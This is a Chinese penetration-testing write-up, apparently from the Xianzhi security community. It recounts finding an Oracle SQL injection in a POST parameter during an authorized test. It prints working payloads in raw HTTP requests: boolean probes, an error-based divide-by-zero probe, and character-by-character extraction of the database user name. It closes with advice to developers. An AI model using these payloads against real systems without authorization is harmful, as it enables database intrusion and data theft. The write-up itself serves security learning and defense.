






# 渗透测试手记：从矛盾现象到Oracle注入漏洞的发现之旅-先知社区

> **来源**: https://xz.aliyun.com/news/17669  
> **文章ID**: 17669

---

## 0x01 迷雾初现：诡异的查询响应

在一次授权渗透测试中，遇到了一个可疑的的接口，其请求体格式如下

```
POST /api1 HTTP/1.1
Content-Type: application/x-www-form-urlencoded

corpNo=test&otherParam=1
```

当尝试构造一些SQL注入的payload 查询时，不同的条件组合出现了**意料之外的结果**：

```
Payload1:' AND '1'='1	200 OK	空结果
Payload2:' AND '1'='2	200 OK	空结果
Payload3:' OR '1'='1	200 OK	数据集A
Payload4:' OR '1'='2	200 OK	数据集A
```









### 矛盾焦点

1. **逻辑短路**：`' OR '1'='2'`应缩小结果集，实际却返回与恒真`' OR '1'='2'`条件相同数据
2. **数据黑洞**：`AND`条件始终无结果，暗示`corpNo=''`无法命中任何记录

## 0x02 矛盾背后的可能性分析

### 推测1：简单的SQL查询

此处的SQL语句可能为`SELECT * FROM table WHERE corpNo = "`。根据Oracle的规则，空字符串（`''`）会被隐式转换为`NULL`，因此`corpNo = ''`实际上等价于`corpNo IS NULL`。理论上：

* **AND条件**：`'1'='1'`为真，但`column IS NULL`的结果取决于数据，若无匹配则无数据。
* **OR条件**：`'1'='1'`为真时应返回所有行，而`'1'='2'`为假时应仅返回`column IS NULL`的行。

但实际结果却是：**两个OR查询返回了相同的数据**，仿佛`'1'='2'`并未影响结果。这显然与Oracle的逻辑矛盾。

### 推测2：**复杂的SQL查询**

* WHERE子句包含其他固定条件
* WHERE子句包含OR分支

**由于是黑盒测试，进一步验证猜想有一定难度，**决定放弃猜想**。**

## 0x03 转折点：SQL注入成功

### 漏洞验证

为了尽快完成测试，关于矛盾背后的原因没有深入研究。尝试对输入参数进行模糊测试，意外发现除零报错。

```
POST /api1 HTTP/1.1
Content-Type: application/x-www-form-urlencoded

corpNo='||(1/0)||'&otherParam=1

//程序报错ORA-01476: divisor is equal to zero。
```



### 进一步证明

获取数据库用户名字符串长度。

```
POST /api1 HTTP/1.1
Content-Type: application/x-www-form-urlencoded

corpNo='||(1/(length(user)-1))||'&otherParam=1
```

按位获取获取数据库用户名的每个字符。

```
POST /api1 HTTP/1.1
Content-Type: application/x-www-form-urlencoded

corpNo='||(1/(decode(substr(user,1,1),"A",1,0))||'&otherParam=1
```



获取数据库名称后，与负责人确认信息完全一致。本次测试旨在发现问题，因此只需证明漏洞存在，未进一步利用漏洞开展其他操作 。

## 0x04 总结与思考

### 1. 渗透测试启示

* **异常即线索**：矛盾的结果往往暗示潜在漏洞
* **绕过思维定式**：当常规Payload失效时，需结合数据库特性构造特殊Payload

### 2. 对开发者的建议

* **禁止字符串拼接**：无论逻辑多简单，永远使用参数化查询
* **高度警惕用户输入**：严格检查数据 。

### 3. 未解之谜的反思

尽管最终证明了漏洞的存在，但未完全还原原始SQL结构。这提醒我们：

* **黑盒测试的局限性**：复杂业务逻辑可能隐藏查询细节
* **漏洞证明无需完美上下文**：攻击者只需找到输入与解析的脆弱结合点

**本文章所分享内容仅用于网络安全技术讨论，切勿用于违法途径，所有渗透都需获取授权，违者后果自行承担，与本号及作者无关，请谨记守法.**
